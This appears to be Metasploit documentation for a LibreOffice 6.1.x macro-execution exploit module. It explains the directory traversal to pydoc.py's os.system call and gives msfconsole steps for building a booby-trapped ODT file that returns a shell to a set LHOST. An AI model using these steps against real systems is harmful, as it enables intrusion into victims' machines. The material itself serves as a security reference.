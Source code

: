 ## Description

  This module exploits a directory traversal vulnerability in LibreOffice `v6.1.0-6.1.4.1` that enables remote code execution.
  Note: `6.0.x` versions are vulnerable to the directory traversal attack, but are not exploitable by this module due to the
  lack of ability to pass arguments.

  LibreOffice comes bundled with sample macros written in Python and allows the ability to bind program events
  to them. A macro can be tied to a program event by including the script that contains the macro and the function
  name to be executed. Additionally, a directory traversal vulnerability exists in the component that references the
  Python script to be executed. This allows a program event to execute functions from Python scripts relative to the
  path of the samples macros folder. The `pydoc.py` script included with LibreOffice contains the `tempfilepager` function
  that passes arguments to `os.system`, allowing RCE.

  This module generates an ODT file with a mouse over event that when triggered, will execute arbitrary code.

## Vulnerable Application

  LibreOffice `v6.1.0-6.1.4.1`. Vulnerable versions for both Windows and Linux can be found [here](https://downloadarchive.documentfoundation.org/libreoffice/old/).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/fileformat/libreoffice_macro_exec```
  4. Do: ```set FILENAME <name>```
  5. Do: ```set LHOST <ip>```
  6. Do: ```set LPORT <port>```
  7. Do: ```run```
  8. Move the generated file to the target
  9. Open the file with a vulnerable version of LibreOffice
 10. You should get a shell.

## Scenarios

### Version of software and OS as applicable

  ```
  msf > use module_name
  msf auxiliary(module_name) > set POWERLEVEL >9000
  msf auxiliary(module_name) > exploit
  ```

